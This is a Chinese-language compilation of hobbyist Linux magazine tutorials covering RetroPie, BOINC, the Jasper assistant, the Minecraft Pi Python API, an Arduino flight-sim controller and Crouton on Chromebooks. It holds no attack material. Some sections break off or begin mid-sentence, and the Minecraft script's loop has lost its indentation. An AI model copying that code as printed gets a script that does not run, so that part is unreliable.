启动后你应该会看到控制器设置屏幕，在此你可以配置你的 USB 游戏控制器。当然，要玩游戏，你必须先拥有它们。ROM 可以从你自己的这些老游戏副本制作，也可以在线找到 abandonware。一些公司，例如 id Software，已将原始的 Doom 开源并置于公共领域。获取后，你需要将它们复制到 SD 卡上 `roms/` 文件夹内相应的模拟器子文件夹中。

## Hack #7: 模拟复古游戏

游戏并不总是图形杰作。开发人员可用的资源更少，而非图形卓越，开发人员依靠游戏玩法来吸引玩家。这就是为什么即使画面简陋，复古游戏至今仍深受各年龄段玩家喜爱的原因——在 Steam 或 Live 上也找不到经典游戏挑战的独特体验。

在 Raspberry Pi 上开始玩复古游戏的最简单方法是安装 RetroPie，它打包了一系列模拟器。你可以在现有的 Raspbian 安装上安装 RetroPie，也可以将其作为独立发行版运行。在获取安装脚本之前，先使用 `sudo apt-get install git dialog` 获取其依赖项。然后你可以使用以下命令下载最新的 RetroPie 设置脚本：

```
git clone git://github.com/petrockblog/RetroPie-Setup.git
```

现在进入克隆的目录并使用 `cd RetroPie-Setup && sudo ./retropie_setup.sh` 运行脚本

> “当然，要玩模拟游戏，你必须先拥有它们…”


`EmulationStation` 只会显示已添加 ROM 的模拟器。

## 捐赠多余资源

如果你并非始终使用 Pi，你可以为有价值的事业捐赠闲置的处理能力。BOINC 是一个计算志愿服务，它使用捐赠的算力用于各种项目，从医学科学的蛋白质折叠到寻找外星智能。

在安装 BOINC 之前，通过调用 `sudo raspi-config` 调整 Raspberry Pi 以减少其自身资源利用率。前往 `Advanced Options > Memory Split` 并为 GPU 预留尽可能少的内存，你会发现为 16MB。然后使用 `sudo apt-get install boinc-manager boinc-client` 安装 BOINC

完成后，从 Others 菜单启动 BOINC Manager。你将被要求从 30 多个受支持项目中添加一个。一些项目可能会警告你它们可能没有适合 Pi 的工作。虽然你仍可以添加它们，但最好添加可以利用 Pi 的项目，例如 Collatz 项目，它正试图反驳 Collatz 猜想。




要配置 BOINC 如何使用 Pi 的资源，首先启用 Advance View，然后前往 Tools > Computing preferences。

已创建，请继续为 Jasper 创建用户配置文件以了解你。切换到 `~/jasper/` 客户端目录并使用 `python populate.py` 运行配置文件填充脚本。该脚本会询问你的姓名、联系方式等信息。Jasper 使用这些信息与你沟通并更准确地回应你的查询。还请记住 Jasper 会要求你输入电子邮件账户的密码，然后将其以明文未加密的形式存储。详细信息存储在 `profile.yml` 文件中。按照项目网站上的文档集成其他服务，如 Facebook 和 Spotify。在运行完配置文件创建脚本后再次重启 Pi。

当它重新启动后，Jasper 会用你在创建配置文件时选择的语音合成器向你问好。你现在可以通过说“Jasper”开始与你的新助手互动。如果它捕捉到该短语，Jasper 会用一声蜂鸣作出回应。你现在可以说出你的命令，例如“现在几点了？”或“我有新邮件吗？”。同样，如果 Jasper 能听到你，它会用答案作出回应。取决于你的麦克风质量和操作员的口才，你与 Jasper 的最初对话可能不会很愉快。

## Hack #10: Minecraft Pi Edition

Minecraft Pi Edition 是热门口袋版的精简版本，但包含足够多的组件来释放你的创造力。你可以探索随机生成的世界并使用建造模式来构建自己的作品。

最好的地方在于其 API，可以使用 Python 访问。你可以编写 Python 脚本来移动玩家以及创建和销毁方块。这使你可以在几秒钟内创建出手工制作需要数小时才能完成的建筑。API 还允许你创建交互式对象，如时钟，并赋予你传送能力。你可以在玩乐中学习编程。

要安装 Pi 版，请前往 pi.minecraft.net 并下载压缩归档。然后在你的主目录下使用 `tar zxvf minecraft-pi.tar.gz` 解压它。这将在 `~/minecraft` 目录下展开归档。切换到该目录并使用 `./minecraft-pi` 启动游戏。如果你不熟悉 Minecraft，你可以用鼠标和 WASD 键控制移动。1-8 键选择快速栏中的物品，空格键使你跳跃，双击空格键切换飞行能力。

你可以使用 API 连接到正在运行的 Minecraft 实例。然而，在使用 Python API 接管控制之前，最好先从 `~/minecraft` 文件夹内的 Python API 文件夹制作一个副本到新位置。在终端中，输入 `mkdir ~/mycraft` 创建一个文件夹并使用以下命令将其复制到其中：

```
cp -r ~/minecraft/api/python/mcpi ~/mycraft/minecraft
```

我们现在将在 `~/mycraft` 目录内保存自定义脚本。在游戏运行时，按 Alt+Tab 键切换回终端。在终端中打开一个新标签页并进入 `mycraft` 目录。启动一个文本编辑器并使用 `nano ~/mycraft/demo.py` 创建一个新的 `demo.py` 脚本并复制以下内容到其中：

```
### Demo script to interact with the Minecraft environment
import minecraft.minecraft as minecraft
import minecraft.block as block
import time
#Connect to minecraft by creating the minecraft object
mc = minecraft.Minecraft.create()
#Post a message to the minecraft chat window
```



```
mc.postToChat("Hello, this is a demo of Minecraft API.")
time.sleep(2)
playerPos = mc.player.getPos() #Find your player’s position.
#Change your players position
mc.player.setPos(playerPos.x, playerPos.y + 50, playerPos.z)
### wait for 10 seconds while you fall back
time.sleep(10)
### - create a STONE block in front of you
playerPos = mc.player.getTilePos()
mc.setBlock(playerPos.x+1, playerPos.y+1, playerPos.z,
block.STONE)
time.sleep(5)
### - Now change that block into WOOD
mc.setBlock(playerPos.x+1, playerPos.y+1, playerPos.z,
block.WOOD_PLANKS)
time.sleep(5)
### - Now let’s create a tower by stacking block
for top in range(0, 10):
mc.setBlock(playerPos.x+3, playerPos.y+top, playerPos.z,
block.STONE)
time.sleep(5)
### - Let’s now teleport you to the top of the tower
mc.player.setPos(playerPos.x+1, playerPos.y+10, playerPos.z)
```

Save the script and while Minecraft is running, fire up the script with `python ~/mycraft/demo.py`. If you haven’t made any typos, you’ll see the welcome message in the game as defined in the `postToChat` string. We then find your player’s position with `getPos` and store it in the `playerPos` variable. The players position is defined with the X and Y and Z coordinates that you can see in the top-left corner of the screen. We then use `setPos` to change your position and teleport you into the sky. When you fall back down, we use the `setBlock` parameter to create a stone block (`block.STONE`) in front of you and then after five seconds replace it with a wooden block (`block.WOOD_PLANKS`). We then use a For loop to stack ten stone blocks a little further away, and then place you on top of it before ending the demo.

作为在 LXP186 中可以做什么的示例，Jonni 展示了如何在 Minecraft 中建造大炮并炸毁东西。

这只是一个使用 Python API 可以实现的功能的演示。下载这个不错的 PDF 速查表 (`http://bit.ly/MinecraftPyCheatSheet`) ，其中包含 API 中的参数以及示例和简要说明。使用 Python 控制 Minecraft 极其强大，提供了如此多的灵活性，以至于我们不可能在这里全部演示。然而，如果你感兴趣，请查看 Jonni 在 Linux Format 杂志档案中的 Minecraft Python 教程（见 Coding Academy，第 83 页，LXP185 起）。

## Arduino：坎巴拉太空计划

为坎巴拉制作自定义控制器并非火箭科学，我们来教你如何做。


标准的 PC 键盘并不适合飞行模拟游戏。每次你按下 `G` 键切换起落架时，都会意识到自己其实并没有真的在飞行。但即便游戏用的是键盘，也未必非得是乏味的 Qwerty 键盘。`Arduino Leonardo` 是一款微控制器（http://bit.ly/LXfieon），可以模拟标准的 USB 键盘。你可以通过接线，做到这样的效果：想要弹射离座时，不必按 `Esc`，而是需要掀开开关护盖、拨动开关解除保险，再按下闪烁的发亮按钮。我们想你会同意，这样酷多了。对于自定义控制器，每个人都有自己想要的样子。你可能想要一个通用于任何飞行模拟游戏的设备。作者恰好是一个一心只玩《坎巴拉太空计划》的偏执狂，因此他做的控制器是专门为此打造的。但一般原则是相同的，这正是我们接下来要解释的内容。我们从一个 `Arduino` 开始。`Arduino` 有多个版本，但你需要的是 `Leonardo`。只有这款能够在硬件层面模拟 USB 键盘。你可以花大约 14 英镑买到一款简洁版，但如果这是你的第一个项目，你还需要一些 LED、电阻和一个原型面包板。在 http://4tronix.co.uk 和 http://proto-pic.co.uk 上有一些不错的入门套装。基本原理是：将按钮或开关连接到 `Arduino`，然后对其进行编程，这样当你按下按钮时，它会向 PC 发送相应的按键信号。你的游戏会表现得就像你在键盘上按下了该键一样，而且你还可以继续插着普通键盘，因此不必复制每一个按键——只需复制游戏中那些有意思的按键。

### 去抖动

硬件开关和按钮是存在机械缺陷的机械装置。当你闭合开关时，电触点会轻微弹跳，在几个毫秒内反复接通和断开，直到最终稳定。如果你的 `Arduino` 在每次触点接通时都发送一次按键，那你本意只想发送一次，结果却会发送好几次。解决方法叫作“去抖动”，而且非常简单。你只需对 `Arduino` 编程，让它在首次检测到开关闭合后等待大约五毫秒，然后再执行实际操作。你需要对每个机械开关和按钮的输入进行去抖动。`Arduino.cc`（http://bit.ly/SB7zp）上的示例程序会向你展示具体做法。一些扩展板，例如本项目用到的 `SX1509`，包含硬件去抖动功能。在这种情况下，初始化板卡时，你需要使用一条简单命令来为该输入引脚启用去抖动。


### 对 Arduino 编程

`Arduino` 有自己的集成开发环境（IDE），因此你可以编写程序（称为“草图”）并将其上传到 `Arduino` 的闪存 RAM 中。当你打开 `Arduino` 时，它会自动运行该草图。这个 IDE 使用 C++ 语言。即便你以前从未编过程，也很容易掌握基础知识。每个草图都有一个 `setup` 函数（在 `Arduino` 启动时运行一次）和一个 `loop` 函数（会反复运行，直到你关闭 `Arduino`）。如果你有一个按钮连接到数字引脚 `2`，你需要在 `setup` 函数中使用命令 `pinMode(2, INPUT)` 对其进行初始化。要监测开关状态，你可以使用 `digitalRead(2)` 命令读取引脚 `2` 的值。C++ 区分大小写，因此 `pinMode` 和 `PinMode` 并不相同。IDE 会自动将内置命令标成橙色，所以如果某个东西没有神奇地变色，你马上就会知道自己打错了。

当你准备好测试时，点击箭头图标编译你的草图。这会将其转换成机器码指令并上传到 `Arduino`。`Leonardo` 只有 28,672 字节的内存来存放你的草图。这通常够用，因为没有图形占用内存，但如果你习惯了编程，就需要更仔细地考虑内存效率。



你也可以为游戏中的每个功能都配一个按钮或开关，但既然是从零开始，何必自我设限呢？模拟操纵杆并不适合所有游戏，但 http://uk.rs-online.com 上有相当便宜的数字操纵杆，它们使用微动开关。每个方向都可以编程为单独的按键，瞬间 `WASD` 就变成了四向操纵杆。你甚至可以动态重映射操纵杆，让它在不同时刻发送不同的按键。例如，当我们切换到“对接模式”时，操纵杆就会被重映射为横向平移，而不是旋转飞船。

除了向游戏发送按键，你可能还想从游戏接收信息。例如，《坎巴拉太空计划》要求你切换到地图界面才能看到轨道参数。有了我们的控制器，我们随时都能在 LCD 显示屏上看到这些信息。转动旋钮，显示屏就会切换显示雷达高度和水平速度。即使你不需要 LCD 显示屏，能够检查拨动开关后起落架是否真的放下也是很方便的。要访问游戏状态，你需要一个可以安装模组的游戏。《坎巴拉太空计划》允许你编写自己的插件，来访问游戏中几乎任何部分。插件会获取这些数据并打包成一个简洁的数据包，通过串行连接经由 USB 线缆发送到你的控制器。

这一切可能看起来令人望而生畏，但请想一想。当作者开始这个项目时，他从未做过任何电子制作，也从未对 `Arduino` 编程。大部分棘手的代码片段都是从其他 `Arduino` 项目和坎巴拉模组中借鉴来的。如果你不想制作一整个控制器，那就从小处开始。即使只是一个中止按钮，也能让你的游戏体验更加刺激。


### 旋转控制

油门功能不需要编程成加号和减号按钮，因为你可以制作一个旋转控制器。最简单的方法是使用电位器，它是一种可变电阻，会随着你转动旋钮而改变——音量控制就是这样工作的。你可以将电位器的输出连接到 `Arduino` 的一个模拟输入上，它会将连续变化的电压转换为 `0` 到 `1023` 之间的一个离散数值。

电位器的缺点是它们有物理限位。例如，在我们的控制器上，有一些按钮用作油门预设，可以让我们立即输入 `0%`、`20%`、`80%` 或 `100%` 的推力。如果我们用电位器旋钮把油门开到最大，然后按下 `0%` 推力的按钮，旋钮仍然停在最大位置，我们就无法再往大了转了。一种解决方案是使用旋转编码器，它可以朝任一方向无限旋转。它们非常便宜，但要让 `Arduino` 检测旋转方向有些棘手。此外，大多数旋转编码器一圈只有 `12` 个步进，因而灵敏度并不高。我们决定改用 http://usdigital.com 的昂贵选项——`MA3` 绝对式磁轴编码器。它们价格不菲，但物有所值。它们非常灵敏、非常顺滑，而且编程非常容易。

> 不要只是用按钮替换每个按键——开关和旋钮可能更有用。

## 电子元件

使用焊接的魔力将开关和灯连接在一起。


### 1 原型化你的布局

与其直接制作控制面板，我们建议你先用纸板制作一个模型版本来决定面板的大小。使用笔、乐高积木或实际开关来尝试不同的布局，直到找到适合你的布局为止（我们为我们的面板也这样做了，图示在左侧）。我们还建议你不要用按钮替换游戏中的每个按键——想想看，旋钮或带照明的开关是否会让界面更有用、更具沉浸感。

### 2 概念验证

要开始使用 `Arduino`，可以先制作一个简单设备。取一个普通开关，将其中一端连接到 `Arduino` 的其中一个 `GND` 引脚，另一端连接到数字引脚 `2`。现在使用原型面包板将 LED 的长脚连接到 `1,000` 欧姆电阻的一端。将电阻的另一端连接到 `Arduino` 上的数字引脚 `3`，将 LED 的短脚连接到另一个 `GND` 引脚。看看你能否编程 `Arduino` 在开关闭合时点亮 LED。示例程序在 http://arduino.cc/en/Tutorial 可以教你如何操作。




### 3 如何焊接

焊接主要在于保持手稳。将电线夹住或用蓝丁胶固定，使末端重叠，然后将烙铁加热几秒钟，并将焊锡触碰到电线上，使其熔化并在表面流动。确保在移动焊接好的电线之前让其冷却。


### 压接

将裸线插入 `Arduino` 并不能很好地工作，因为末端不够硬，无法推入排针。你需要在电线末端加上金属尖刺，即压接连接器。你可以购买这些连接器并自行安装，但购买预压接电线更简单可靠。购买每端都有公头压接连接器的 `30cm` 电线。你可以将这些电线剪成两半，这样一端就有裸线可以焊接到你的开关上，另一端则是压接连接器。

### 4 添加连接导线

控制面板上的每个开关和灯都需要自己的连接导线。排线使布线更整洁，但焊接更困难，如果你改变了位置的想法，就无法移动开关。使用 `2.4mm` 热缩管来绝缘末端。

### 5 扩展 Arduino


# Arduino Leonardo 扩展与面板制作

`Arduino Leonardo` 只有 20 个数字输入/输出引脚，而你会发现你实际上需要更多。例如，单个 `LED` 数码管就需要七个独立输出来控制每个段。一种最通用的引脚复用方法涉及 `SX1509`（£7.40, `http://proto-pic.co.uk`）。它使用两个引脚与 `Arduino` 通信，但为你提供 16 个额外的引脚。你可以将多达四个 `SX1509` 连接到单个 `Arduino`，它们共享相同的两个通信引脚。这就是花费两个引脚的价格获得总共 64 个引脚！最棒的是，`SX1509` 扩展板使用硬件中断来提醒 `Arduino` 当其任何输入发生变化时，因此你无需在代码中不断监控每一个输入。


## 6 焊接排针

你可以使用 `SX1509` 让你的 `LED` 自动闪烁或渐变。如果前往 `http://bit.ly/LXfsx1509`，这里有一个很棒的开源库，可以让为 `SX1509` 编程变得简单。与其直接将电线焊接到 `SX1509` 上，最好添加一个排针块——就像 `Arduino` 本身一样——这样你可以插入组件。你可以购买条状排针块并按尺寸剪切。将每个引脚焊接到底部。


## 欧姆定律

如果你将 `LED` 直接连接到 `Arduino` 的 `5V` 引脚，它会亮得不舒服，甚至可能完全烧毁 `LED`。这是因为 `LED` 是半导体，内部几乎没有电阻。欧姆定律说电压 = 电流 x 电阻，这意味着 `I = V/R`。因此，如果 `R` 很小，电流就会变得很高。为防止这种情况，务必在所有 `LED` 上串联一个电阻。绿色 `LED` 的内部压降约为 2.2V。要提供安全的 10 毫安电流，你需要一个 280 欧姆的电阻，因为 `(5 – 2.2) / 0.01 = 280`。

## 7 边做边测试

使用面包板在添加每个组件时进行测试。这可以确保你没有将导线接反，并帮助你逐步学习 `Arduino` 编程。

## 8 连接 LCD

简单的 16x2 字符 `LCD` 显示屏非常便宜，但默认接口需要大量引脚来控制。这块 `SerLCD` piggyback 板（`www.sparkfun.com`）使用一根线——外加地线和 `+5V`——通过其自身的串行通信接口与 `Arduino` 通信。你可以购买已安装 `SerLCD` 的板子，但自己添加也很简单。它直接焊接到 `LCD` 电路板上，使用现有的引脚连接，并且有一个可以用螺丝刀调节对比度的电位器。串行通信与 `SX1509` 扩展板使用的 `I2C` 总线不同，但将两者放在同一个项目中是可以的。同样，在 `http://bit.ly/LXfSerlcd` 上有很好的软件库来控制该板。



## 外壳

组装一个配得上阿波罗计划的面板。


### 9 一个基本盒子

用 6mm 的中密度纤维板制作盒子的背面和底部。这种材料易于切割和钻孔，并为电子元件提供绝缘底座。

用 20mm 的中密度纤维板切割出斜面侧板，并多做两个，以便在盒子中间设置支柱，防止前面板弯曲。将所有部件拧在一起。

## 电源集线器

你添加的几乎每个控制或灯都需要自己的地线或 `+5V` 连接，有时两者都需要。`Arduino Leonardo` 只有两个地线引脚和一个 `+5V`，引脚不足以直接连接所有设备。一个简单的解决方案是使用一块 `Veroboard` 条板（预钻孔带铜导轨的板），并在上面焊接一些排针。你可以将它插入 `Arduino` 的 `GND` 引脚，整个 `Veroboard` 上的导轨都将作为地线。对 `+5V` 做同样的处理以创建集线器。

### 10 前面板

前面板是 3mm 铝板。这种材料在 eBay 上很容易按尺寸购买到。如果想要一种更易于钻孔且外观几乎一样的东西，可以尝试铝塑复合材料（`ACM`），即夹在薄铝层之间的塑料。使用 `CAD` 或绘图程序，例如 `Open Office` 或 `FreeCAD`，来布置所有开关和按钮的精确位置，确保标记每个孔的中心。将此图以镜像形式打印并粘贴在前面板的背面。这样可以从背面钻孔并保留纸张，纸张可以绝缘内部金属表面。


### 11 钻孔

大多数开关和按钮使用 9mm 面板孔。使用中心冲头（或只用一颗螺丝）和锤子小心地标记每个孔的中间。确保面板牢固夹紧并钻一个 3mm 的导向孔。然后换上 9mm 钻头并扩大孔径。

### 12 安装前面板

此时，抛光前面表面的任何划痕，因为当所有开关都安装好后会更难处理。将面板安装到你的盒子上并拧上控制装置。暂时不要装上木质背板，以便仍能操作。


### 13 使用二极管

二极管是作为电流单向阀工作的半导体器件。你可以用它们创建巧妙的编码器，从而为 `Arduino` 节省一些数字引脚。假设你有一个四位置旋转拨盘。通常，每个位置都需要一个输入（因此 `Arduino` 上需要一个引脚），但实际上你只需两个引脚即可。你将位置 2 接到一个引脚，位置 4 接到另一个引脚。将位置 3 同时连接到两个引脚，但使用二极管使位置 2 和 4 在电气上仍然相互隔离。当你将拨盘转到位置 1 时，两个引脚都不会收到信号（因为位置 1 未连接）。转到位置 2 时，仅第一个引脚为高电平。转到位置 3 时，两者都为高电平。转到位置 4 时，仅第二个引脚为高电平。在这里，我们将其扩展到六位置拨盘，因此它只需要三个 `Arduino` 引脚。


## 电流

`Arduino` 在 `5V` 轨上最多只能提供 200mA，在 `3.3V` 轨上最多只能提供 50mA。如果你的控制器有大量 `LED`，你很快就会超出这个限制，`Arduino` 将无法正常工作。来自亚马逊的一块 2.60 英镑的面包板电源模块可在每个轨上提供超过 500mA。使用它为你的元件供电，并让 `Arduino` 通过 `USB` 线运行。或者你可以剪开一根 `USB` 线并将 `5V` 线接到电源模块。地线接到电源模块并同时返回到电脑，数据线则正常连接到电脑。

### 14 按键矩阵

如果有很多按钮且一次只会按下其中一个，就将它们布线成网格，使每一行和每一列都有公共连接。`SX1509` 将扫描每一行和每一列并检测按钮按下。这是在节省大量引脚方面的又一个好方法。


### 15 全部塞进去

将 `Arduino` 安装在背板上并将所有东西连接到其指定引脚。记录好每个连接的位置，不要忘记记录导线颜色，以便在测试期间找到它们。


### 14 测试硬件

当你开始为 `Arduino` 编程时，很难判断任何故障是由于硬件还是软件错误造成的，因此以小步推进很重要。我们建议从单个开关开始。编程 `Arduino` 以检测其闭合并点亮 `LED` 来显示这一点。重复此操作以确认直接连接到 `Arduino` 的每个开关和按钮的运行情况。我们然后建议使用 `SX1509` 库来访问连接到扩展板上的其中一个控制装置。

当你确认控制装置工作正常后，尝试在 `LCD` 显示屏上显示信息，等等。当你遇到偶尔的故障时（你肯定会遇到），不要害怕拆下背板并用数字万用表检查各个引脚的电压。我们还建议检查因焊接不慎造成的短路。

# 安装 Linux

在你的新 Chromebook 上

对于那些购买了 Chromebook 却怀念完整操作系统的人，我们将向你展示如何让各种 Linux 发行版运行起来。


`Chrome OS` 很出色——对于 Chromebook 通常面向的那类用户，它做到了所需的一切。它快速易用——你还能要求什么呢？好吧，时间长了，你可能会怀念传统操作系统所附带的某些功能。但别担心，`Crouton` 提供了帮助。

`Crouton` 是一组程序，可在 `Chrome OS` 内设置一个 `chroot` 环境，从中你可以运行 Linux 操作系统，目前支持 `Debian` 和 `Ubuntu`。

`chroot` 并不是虚拟机——你仍然在标准操作系统上运行，只是在一个新环境中。这种方法有几个关键优势：例如，它不会触及现有的操作系统安装。


使回滚变得容易；它使用 Chrome OS 的视频、无线和其他设备的驱动程序，因此没有兼容性问题；并且它由 Chrome OS 作者编写，因此应该与未来的更新保持兼容。使用 Crouton 的唯一真正缺点是可能会有轻微的性能损失，但你买 Chromebook 也不是为了其超快的速度。哦，如果你感兴趣的话，名字 Crouton 是一个牵强的缩写（代表 Chromium OS Universal chroot EnviroNment），显然是在命名之后才想出来的。

在开始安装其他发行版之前，最好创建一个恢复磁盘，以防 Chromebook 出现问题。即使你没有安装另一个操作系统，这也是一个明智的步骤，尤其是因为它非常简单——你只需要一个容量至少为 2GB 的 USB 闪存盘或 SD 卡。由于 Chrome OS 基于云，2GB 就足够了，因为你只需要备份操作系统——你的数据和设置都安全地保存在 Google 服务器上。（有关详细信息，请参阅第 55 页的恢复磁盘逐步指南。）

## 术语解释！

`apt-get`

用于在 Debian、Ubuntu 和其他 Linux 发行版上安装软件包的程序。



这是在 Chromebook 上运行的 LXDE，但 Chrome OS 仍然在那里。

## 隐藏 shell

你需要激活开发者模式（请参阅框，p53 了解详情）。准备就绪后，从 http://goo.gl/td3zc 开始下载 Crouton。这是一个脚本，可下载并安装你所需的一切。你从 shell 运行它——是的，Chromebook 自带 shell。按 `Ctrl+Alt+T` 在浏览器标签页中打开 Crosh shell。这是一个有限的 shell，Crouton 需要知道你想安装哪个发行版：它称这些为发行版，并使用 `-r` 选项选择它们。然后它需要知道你想要安装的目标环境。目标是一组软件包，例如特定的桌面。这两个命令将列出选项：

```
sh -e ~/Downloads/crouton -t list
```

```
sh -e ~/Downloads/crouton -t 2>&1 | more
```

第二个命令需要传递给 `more`，因为它有好几屏——按 `Space` 逐页浏览。一旦你决定了想要的发行版和目标，你就可以运行 Crouton。例如，要安装 Ubuntu 13.10（Saucy Salamander）并使用 Unity 桌面，运行：

```
sudo sh -e ~/Downloads/crouton -r saucy -t unity
```

这使用了 `sudo`，因为你需要 root 权限来安装软件。你也可以指定多个目标，像这个安装 Debian Wheezy 并使用 LXDE 桌面和 XBMC 媒体中心的示例一样：

```
sudo sh -e ~/Downloads/crouton -r wheezy -t lxde,xbmc
```

## 启用开发者模式

使用 Crouton 意味着首先将 Chromebook 置于开发者模式，这意味着你获得 root 访问权限甚至 Bash shell。这不是黑客行为，而是一个完全受支持的、尽管隐藏的官方选项。先警告一下，启用开发者模式会清除你的存储。它不会影响你的云存储，但在继续之前应将本地存储的任何文件上传到 Google Drive。启用开发者模式的方法因设备而异——你可以在 Chromium 网站的此处找到说明。 http://bit.ly/1gDHPGd

在我们用于测试的 Acer C720 上，与大多数 Samsung 设备一样，你关闭设备，然后按住 `Escape` 和 `Refresh` 键，然后按电源按钮。这会进入恢复屏幕，然后按 `Ctrl+D` 启用开发者模式。其他设备有硬件按钮用于此操作。

一旦启用开发者模式，每次开机时你都会看到 OS verification is OFF 屏幕——按 `Ctrl+D` 继续启动，或等待 30 秒。

前往 www.chromium.org 获取你的设备的开发者模式开关。

## 启动

根据所选目标和互联网连接速度，这可能需要一段时间。完成后，它会告诉你启动所选发行版在 chroot 中的命令，例如：

```
sudo startunity
```

运行该命令，你将进入标准的 Ubuntu 桌面。完成后，以通常方式注销，你将返回熟悉的 Chrome OS。你也可以通过按住 `Ctrl+Alt+Shift` 并按 `Forward` 或 `Back` 在两者之间切换。事实上，Chrome OS 数字行上方的导航键在 Linux 中被视为 F 键，因此它们实际上是 `Ctrl+Alt+Shift+F1` 和 `Ctrl+Alt+Shift+F2`。

你最终得到的安装并不是你原生安装时会得到的完整发行版，但任何额外软件包都可以用通常方式安装。如果使用 Unity，软件中心未安装，因此在 Unity 中打开终端（`Ctrl+Alt+T`）并运行：

```
sudo apt-get update
```

```
sudo apt-get install software-center
```

现在你可以从 GUI 安装所需的任何其他软件包。你也可以使用 `-u` 标志安装额外的目标环境。例如，要向我们之前创建的 Ubuntu chroot 添加 LXDE 环境，我们将运行：

```
sudo sh -e ~/Downloads/crouton -r saucy -u t lxde
```

## 增加一些隐私

正如你可能注意到的，启用开发者模式会通过 `sudo` 授予你 root 访问权限，而无需密码。这对 Chrome OS 来说安全性稍低，但你的登录和文件仍由你的 Google 登录保护，但这意味着你的 chroot 中的所有文件都可以读取，即使使用无密码访客登录。如果你担心这一点，可以通过使用 Crouton 的 `-e` 标志来加密整个 chroot。这会提示输入密码并使用该密码加密整个 chroot 目录，这意味着在没有密码的情况下你既无法读取也无法运行 chroot。例如：

```
sudo sh -e ~/Downloads/crouton -e r wheezy -t xfce
```

有大量发行版和目标可供选择；你可以一次全部安装，但那样会变得非常臃肿，那么你如何尝试它们全部呢？答案是你拥有的空间可以容纳多少 chroot。

如果你计划这样做，你可能会发现使用 Crouton 的 `-n` 选项为每个 chroot 起名更容易，否则它们只是以发行版命名。命名在安装多个发行版时很重要，因为运行启动命令时需要名称，否则 Crouton 只会加载它找到的第一个包含你给出的目标的发行版。添加 `-n`，如下所示，可确保加载正确的发行版：

```
sudo startunity -n saucy
```

Crouton 还安装了一些有用的工具，特别是 `edit-chroot`。这可以用来备份 chroot。

```
sudo edit-chroot -b saucy
```

在 `~/Downloads` 中创建备份文件，你可以用以下命令恢复：

```
sudo edit-chroot -r ~/Downloads/backup-file.tar.gz
```

将此复制到安全位置。即使你执行完全重置/恢复，你也可以通过再次下载 Crouton 并运行以下命令来恢复它：

```
sudo sh -e ~/Downloads/crouton -f backup-file.tar.gz
```

你也可以使用 `delete-chroot` 删除 chroot，你本可以自己想到的，或者你可以简单地从 `/usr/local/chroots` 删除保存它的目录以返回到原生的 Chrome OS。当然，前提是你想这样做。按照下一页的步骤操作...




Unity 非常适合全屏运行所有内容。

## 术语解释！

`chroot`

程序被锁定的目录。它看不到外部的任何东西。

### 快速提示

尝试多个发行版或目标时，清理你已完成的内容。每个都有好几个 GB，你的存储很快就会消失。

## 安装一个发行版





### 1 打开一个 shell

按 `Ctrl+Alt+T` 打开一个终端窗口。这将在浏览器标签页中打开一个基础的 Crosh shell，其命令集有限——你可以通过输入 `list` 来查看。命令之一是 `shell`，它会为你提供一个完整的 Bash shell（已修复 Shellshock），就像其他发行版一样。

没错——Chrome OS 背后有一个真正的 Linux 操作系统。

### 2 选择一个发行版和目标


运行`Crouton`并加上`-t list`将会显示所有可用的目标。你可能想要其中一个标准的桌面环境。Chromebook的性能相对较低，选择一个轻量级桌面如`LXDE`是不错的选择，而`Unity`更适合全屏运行。





### 3 加密你的文件

在`Crouton`的命令行中添加`-e`（这与`sh`之后的`-e`不同）会使你的`chroot`存储在加密目录中。选择一个足够强的密码短语——这是保护你文件安全的全部手段，但请记住，由于Chromebook存储空间非常有限，你的大部分数据可能都会保存在云端。

### 4 安装发行版

由于`Crouton`只是一个安装程序，它需要在安装前下载发行版的发布文件，因此请为此预留时间。即使网络连接很快，如果你选择了较大的目标，下载和安装所有内容也可能需要超过30分钟——大小在`crouton -t list`的输出中显示。



